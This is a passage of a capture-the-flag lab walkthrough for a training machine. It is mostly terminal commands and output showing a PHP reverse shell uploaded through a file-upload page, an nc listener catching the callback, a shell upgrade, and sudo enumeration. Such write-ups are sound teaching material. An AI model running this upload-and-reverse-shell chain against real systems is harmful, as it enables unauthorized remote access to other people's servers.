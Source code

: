 ```bash
[####################] - 0s   1764368/1764368 0/s     http://10.1.1.45/t0d0_l1st_f0r_f1r5t/uploads => Directory listing
[####################] - 0s   1764368/1764368 0/s     http://10.1.1.45/t0d0_l1st_f0r_f1r5t/photos => Directory listing
```
## Reverse Shell 
Upload shell.php to http://10.1.1.45/t0d0_l1st_f0r_f1r5t/upload.php
(I use pentestmonkey)
```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/First]
└─$ nc -nlvp 5555                                                                                                                                                                                                                        1 ⨯
listening on [any] 5555 ...
```
``bash
┌──(coolatos㉿CooLaToS)-[~/HMV/First]
└─$ curl $url/t0d0_l1st_f0r_f1r5t/uploads/shell.php
```
```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/First]
└─$ nc -nlvp 5555                                                                                                                                                                                                                        1 ⨯
listening on [any] 5555 ...
connect to [10.1.1.2] from (UNKNOWN) [10.1.1.45] 36682
Linux first 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 08:44:11 up  1:08,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
first    pts/0    10.1.1.2         07:42   38:27   0.20s  0.15s lxc exec mycontainer /bin/sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 
```
## Upgrade Shell
```terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'

ctrl + z 

stty -a ; stty raw -echo ; fg 

www-data@first:/$ reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@first:/$ stty rows (Values from stty raw - echo) cols (Values from stty raw - echo)
www-data@first:/$ export TERM=xterm-256color
www-data@first:/$ alias ll='clear ; ls -lsaht --color=auto'
```
```bash
www-data@first:/$ sudo -l
Matching Defaults entries for www-data on first:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on first:
    (first : first) NOPASSWD: /bin/neofetch
```
